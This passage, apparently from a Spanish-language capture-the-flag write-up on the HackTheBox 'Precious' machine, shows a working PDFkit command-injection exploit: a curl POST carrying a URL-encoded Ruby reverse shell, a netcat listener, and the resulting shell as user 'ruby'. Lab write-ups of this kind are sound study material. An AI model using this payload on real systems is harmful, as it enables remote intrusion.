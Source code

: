 <br>

<h3 id="pdfkit4">Probando Exploit: PDFkit-CMD-Injection</h3>

Esta vez, nos dan un comando que podemos usar para ganar acceso a la máquina, se trata de un comando curl que manda un petición POST que carga nuestra Reverse Shell, al parecer, solamente debemos indicar nuestra IP y un puerto.

Sigamos las instrucciones que nos dicen:

* Abrimos un servidor web con **Python**:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

* Abrimos una **netcat**:
```bash
nc -nvlp 443         
listening on [any] 443 ...
```

* Cargamos una petición y la modificamos poniendo la dirección de la página web de la máquina y poniendo nuestra IP y un puerto:
```bash
curl 'http://precious.htb/' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://precious.htb/' -H 'Connection: keep-alive' -H 'Referer: http://precious.htb/' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'url=http%3A%2F%2FLOCAL-ADDRESS%3ALOCAL-PORT%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%22AQUI_PON_TU_IP%22%2CAQUI_PON_EL_PUERTO%29%29%27%60'  
Warning: Binary output can mess up your terminal. Use "--output -" to tell 
Warning: curl to output it to your terminal anyway, or consider "--output 
Warning: <FILE>" to save to a file.
```

* Resultado:
```bash
nc -nvlp 443         
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.11.189] 34916
whoami
ruby
id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
```
Estamos dentro otra vez. Diría que busquemos la flag, pero no somos usuarios, vamos a buscar que cosillas encontramos aquí.


<br>
<br>
<hr>
<div style="position: relative;">
 <h1 id="Post" style="text-align:center;">Post Explotación</h1>
  <button style="position:absolute; left:80%; top:3%; background-color:#444444; border-radius:10px; border:none; padding:4px;6px; font-size:0.80rem;">
   <a href="#Indice">Volver al Índice</a>
  </button>
</div>
<br>
